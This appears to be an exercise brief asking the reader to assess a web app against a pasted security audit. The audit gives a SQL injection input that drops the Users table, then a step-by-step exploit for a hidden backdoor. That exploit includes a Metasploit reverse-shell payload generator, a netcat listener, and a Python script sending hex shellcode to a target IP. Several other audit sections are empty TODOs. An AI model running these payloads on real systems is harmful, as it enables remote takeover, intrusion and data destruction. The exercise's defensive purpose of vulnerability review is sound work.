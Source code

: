 # Software Security Audit

## Objective
Someone online has done a software security audit of the source we based out web app on.  In short, they found some major issues.  The report was pulled from a Wordpress blog to out company wiki and is shown below.  Go over the vulnerabilities in the audit and write a detailed report about whether or not your web app is vulnerable to the issues mentioned.  Include details about any mitigations that were taken to prevent the issues mentioned in the audit.  If our web app is vulnerable include details for how could mitigate the attack and a work estimate (guestimate of hours, days, or weeks) of how long it would take to fix the issue(s).

## Web App Vulnerabilities and Exploits

### SQL Injection on Form
Drop Users table by entering statement below in the "username" field of the login form.  SQL injection appears likely on other forms as well.

`test'; DROP TABLE Users;#`

Note other SQL injections are possible aside from the example above.

### Reflective XSS
TODO

### Plaintext Database Password Entries
TODO

### Probablistic Database Dump
TODO

### Hidden Backdoor
If a POST request is made with the user agent "asn_roodkcab" ("nsa_backdoor" spelled backwards) the string value of the "data" parameter is decoded as ASCII hex to binary and run in executable memory.  This was tested using metasploit to generate a reverse shell payload and sent with a python script to activate remotely.  Sample scripts below.

Generate your shellcode payload.  Sample script to generate payload with metasploit on Kali shown below.  Depending on target machine OS and architecture some changes may need to be made.  This was tested on a target machine running Ubuntu 12.04 LTS 64 bit.

	#!/bin/bash
	clear
	echo -e "Enter attacker machine IP:  \c"
	read IP
	echo -e "Enter port: \c"
	read port
	msfpayload linux/x64/shell_reverse_tcp LHOST=$IP LPORT=$port R | msfencode -b "\x00\x0a\x0b\x0c\x0d" -t c -e x64/xor >> payload
	echo "Finished"
	ls -la payload

On attacking machine setup the reverse shell listener with netcat (set port to the port you want to listen on, example here is port 447):

`run nc -nvvlp 447`

Edit script with the proper IP address or URL of the victim machine and the Hex encode payload you generated in the previous step (note you will need to do some Find/Replace to get it formatted correctly).  Then on the attacking machine run:

	#!/usr/bin/python
	import urllib
	import urllib2
	
	# replace with target machine IP or URL
	url = 'http://192.168.1.154/webapp'
	
	# replace with your target specific shell code
	# note shellcode should be HEX encode without seperating charcters
	values = {'data' : '4831C94881E9F6FFFFFF488D05EFFFFFFF48BBF0C671726F32CBE248315827482DF8FFFFFFE2F49AEF29EB05309488F1987E7727A5835BF2C670CDAF9ACAD5A18EF89405229188DA9E7E77053195AA0F081B53373DCE9706AC4A2AF67A70CD92AF1F5D1C5ACBB1B84F9620387A4204FFC371726F32CBE2'}
	
	headers = { 'User-Agent' : 'asn_roodkcab' }
	
	data = urllib.urlencode(values)
	req = urllib2.Request(url, data, headers)
	response = urllib2.urlopen(req)
	page = response.read()
	
	print page
